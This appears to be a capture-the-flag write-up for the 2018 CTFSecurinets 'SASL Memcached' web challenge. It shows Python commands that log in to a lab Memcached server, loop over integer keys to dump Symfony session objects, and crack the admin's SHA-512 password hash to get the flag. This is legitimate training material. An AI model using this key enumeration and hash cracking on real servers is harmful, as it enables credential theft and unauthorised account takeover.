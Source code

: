<p align="center">
<img src="logo.png"/>
</p>

# CTFSecurinets Quals 2018 Writeup
This repository serves as a writeup for CTFSecurinets Final 2018

## SASL Memcached

**Category:** Web
**Points:** 299
**Author:** TheEmperors
**Description:**

> The Emperor worked in the development of a website in which, authenticated sessions should be logged in a cache server. So he developped this feature in a Memcached server. And to prevend anyone to connect to the Memcached server, he enabled the SASL authentication in the Memcached server. After he finished the development of this feature, The Emperor was fired from this team to another one in the same enterprise. The Emperor wanted to make a revenge on his chief. The Emperor remembred that he own only the memcached credentials and he want to get the admin credentials of the website. Can you help him to successfully authenticate using the admin credentials ? "SASL login=SASL password=securinets_SAAASLLL_hahaha_ok_Xd"
Link : http://192.168.1.101/

**Hint:**

> The Emperors said that keys stored in the Memcached server are an incremented integer

<p align="center">
<img src="resources/web-299-sasl_memcached/_description.PNG"/>
</p>

### Write-up
When visiting the link of the web application, we find out an authentication form :
<p align="center">
<img src="resources/web-299-sasl_memcached/1.PNG"/>
</p>

After reading the description, it seems that there is no way to bypass authentication without searching the credentials from the memcached server.

But when we tried to authenticate to the memcached server with netcat or telnet. We even tried dumping the memcached key with memcdump command but we failed. Because these commands doesn't require credentials. And in this task we have to authenticate to the memcached server using the given credentials.

So it smells a kind of programming web task.

We tried to authenticate to the memcached server using memcached library in PHP but we failed.

But hopefully, in Python, we found the bmemcached library (binary memcached). We installed it and we tested it and it worked like a charm:

```
pip install bmemcached
python -c "import bmemcached;client = bmemcached.Client(('192.168.1.101:11211', ), 'securinets_SAAASLLL_hahaha_ok_Xd','securinets_SAAASLLL_hahaha_ok_Xd');client.set('key', 'value');print client.get('key');"
```

Output :
```
value
```

So after authenticating to this memcached server and writing and reading some data, we can continue solving this task.

After searching how to dump the memcached data, we found that there is no command that can did this in a binary memcached server (a memcached server in which we authenticated using a SASL credentials). So, if we don't know the keys, we can't did anything.

In the hint, the developper said that the keys stored in the Memcached server are an incremented integer. So we tried to read the key number 1 :
```
python -c "import bmemcached;client = bmemcached.Client(('192.168.1.101:11211', ), 'securinets_SAAASLLL_hahaha_ok_Xd','securinets_SAAASLLL_hahaha_ok_Xd');print client.get('1');"
```

Output :
```
C:74:"Symfony\Component\Security\Core\Authentication\Token\UsernamePasswordToken":742:{a:3:{i:0;N;i:1;s:4:"main";i:2;s:702:"a:4:{i:0;O:41:"Symfony\Component\Security\Core\User\User":7:{s:51:"Symfony\Component\Security\Core\User\Userusername";s:6:"simple";s:51:"Symfony\Component\Security\Core\User\Userpassword";s:128:"2ed75bf2ad6cf1bf10224192e08d3f856e9d09d9b554fdb9e0bac60ef2772baa18d0d261858931a8b14db32646702f43c26748d2b5d2cb388a99a40266e548d5";s:50:"Symfony\Component\Security\Core\User\Userenabled";b:1;s:60:"Symfony\Component\Security\Core\User\UseraccountNonExpired";b:1;s:64:"Symfony\Component\Security\Core\User\UsercredentialsNonExpired";b:1;s:59:"Symfony\Component\Security\Core\User\UseraccountNonLocked";b:1;s:48:"Symfony\Component\Security\Core\User\Userroles";a:0:{}}i:1;b:0;i:2;a:0:{}i:3;a:0:{}}";}}
```

Nice ! This web application is based on the Symfony framework and the session stored in the memcached server contains the user information from the `UsernamePasswordToken` class object.

The username used here is ```simple``` and the password is ```2ed75bf2ad6cf1bf10224192e08d3f856e9d09d9b554fdb9e0bac60ef2772baa18d0d261858931a8b14db32646702f43c26748d2b5d2cb388a99a40266e548d5```. But these credentials doesn't works. Maybe this password is a hash.

We tried the easy solution by cracking this hash in crackstation.net and we found that this hash is the ```sha512(password)```. And the password value iss ```simple```.

So we tried this credentials:
```
Login=simple
Password=simple
```

We successfully authenticated but we found this message:
```
You are not an admin user !
```

We figured out that we only have tried to authenticate with a simple user and not with an administrator user. So we have to read all the memcached keys value in python:

```python
import bmemcached
client = bmemcached.Client(('192.168.1.101:11211', ), 'securinets_SAAASLLL_hahaha_ok_Xd','securinets_SAAASLLL_hahaha_ok_Xd')
for i in range(50): print client.get(str(i))
```

Output :
```
C:74:"Symfony\Component\Security\Core\Authentication\Token\UsernamePasswordToken":742:{a:3:{i:0;N;i:1;s:4:"main";i:2;s:702:"a:4:{i:0;O:41:"Symfony\Component\Security\Core\User\User":7:{s:51:"Symfony\Component\Security\Core\User\Userusername";s:6:"simple";s:51:"Symfony\Component\Security\Core\User\Userpassword";s:128:"2ed75bf2ad6cf1bf10224192e08d3f856e9d09d9b554fdb9e0bac60ef2772baa18d0d261858931a8b14db32646702f43c26748d2b5d2cb388a99a40266e548d5";s:50:"Symfony\Component\Security\Core\User\Userenabled";b:1;s:60:"Symfony\Component\Security\Core\User\UseraccountNonExpired";b:1;s:64:"Symfony\Component\Security\Core\User\UsercredentialsNonExpired";b:1;s:59:"Symfony\Component\Security\Core\User\UseraccountNonLocked";b:1;s:48:"Symfony\Component\Security\Core\User\Userroles";a:0:{}}i:1;b:0;i:2;a:0:{}i:3;a:0:{}}";}}
... (many objects of the simple user)
C:74:"Symfony\Component\Security\Core\Authentication\Token\UsernamePasswordToken":756:{a:3:{i:0;N;i:1;s:4:"main";i:2;s:716:"a:4:{i:0;O:41:"Symfony\Component\Security\Core\User\User":7:{s:51:"Symfony\Component\Security\Core\User\Userusername";s:19:"admin_is_theemperor";s:51:"Symfony\Component\Security\Core\User\Userpassword";s:128:"fe0468680d4f90bf7446e49a3c9100b490a8db06df47588320921a36f0b92703dc7284797bb391a766cbec7c92a9cffa7d1b535c7aa4d345788d0153a93a1ee6";s:50:"Symfony\Component\Security\Core\User\Userenabled";b:1;s:60:"Symfony\Component\Security\Core\User\UseraccountNonExpired";b:1;s:64:"Symfony\Component\Security\Core\User\UsercredentialsNonExpired";b:1;s:59:"Symfony\Component\Security\Core\User\UseraccountNonLocked";b:1;s:48:"Symfony\Component\Security\Core\User\Userroles";a:0:{}}i:1;b:0;i:2;a:0:{}i:3;a:0:{}}";}}
... (many objects of the simple user)
C:74:"Symfony\Component\Security\Core\Authentication\Token\UsernamePasswordToken":742:{a:3:{i:0;N;i:1;s:4:"main";i:2;s:702:"a:4:{i:0;O:41:"Symfony\Component\Security\Core\User\User":7:{s:51:"Symfony\Component\Security\Core\User\Userusername";s:6:"simple";s:51:"Symfony\Component\Security\Core\User\Userpassword";s:128:"2ed75bf2ad6cf1bf10224192e08d3f856e9d09d9b554fdb9e0bac60ef2772baa18d0d261858931a8b14db32646702f43c26748d2b5d2cb388a99a40266e548d5";s:50:"Symfony\Component\Security\Core\User\Userenabled";b:1;s:60:"Symfony\Component\Security\Core\User\UseraccountNonExpired";b:1;s:64:"Symfony\Component\Security\Core\User\UsercredentialsNonExpired";b:1;s:59:"Symfony\Component\Security\Core\User\UseraccountNonLocked";b:1;s:48:"Symfony\Component\Security\Core\User\Userroles";a:0:{}}i:1;b:0;i:2;a:0:{}i:3;a:0:{}}";}}
... (many objects of the simple user)
None
... (many None)
None
```

So the interesting line is this line which contains the administrator credentials:
```
C:74:"Symfony\Component\Security\Core\Authentication\Token\UsernamePasswordToken":756:{a:3:{i:0;N;i:1;s:4:"main";i:2;s:716:"a:4:{i:0;O:41:"Symfony\Component\Security\Core\User\User":7:{s:51:"Symfony\Component\Security\Core\User\Userusername";s:19:"admin_is_theemperor";s:51:"Symfony\Component\Security\Core\User\Userpassword";s:128:"fe0468680d4f90bf7446e49a3c9100b490a8db06df47588320921a36f0b92703dc7284797bb391a766cbec7c92a9cffa7d1b535c7aa4d345788d0153a93a1ee6";s:50:"Symfony\Component\Security\Core\User\Userenabled";b:1;s:60:"Symfony\Component\Security\Core\User\UseraccountNonExpired";b:1;s:64:"Symfony\Component\Security\Core\User\UsercredentialsNonExpired";b:1;s:59:"Symfony\Component\Security\Core\User\UseraccountNonLocked";b:1;s:48:"Symfony\Component\Security\Core\User\Userroles";a:0:{}}i:1;b:0;i:2;a:0:{}i:3;a:0:{}}";}}
```

After cracking the password administrator we found this credentials:
```
Login=admin_is_theemperor
Password=a0000
```

Now, we authenticate using this credentials and we find the flag:
```
Congratulations ! your flag is Flag{Y0_M3mc4cH3d_W1tH_S4SL_4r3_h3LL_xD}
```

So the flag is : ```Flag{Y0_M3mc4cH3d_W1tH_S4SL_4r3_h3LL_xD}```.

___










# Scoreboard

This is the scoreboard and the ranking for the 5 teams that they solved at least one task in this CTF :

Summary:

<p align="center">
<img src="scoreboard/ALL.PNG"/>
</p>

Detailed :

<p align="center">
<img src="scoreboard/1.PNG"/>
</p>
<p align="center">
<img src="scoreboard/2.PNG"/>
</p>

If you need the Json file of the scoreboard, you can find it [scoreboard/jsonAdvanced.json](here)

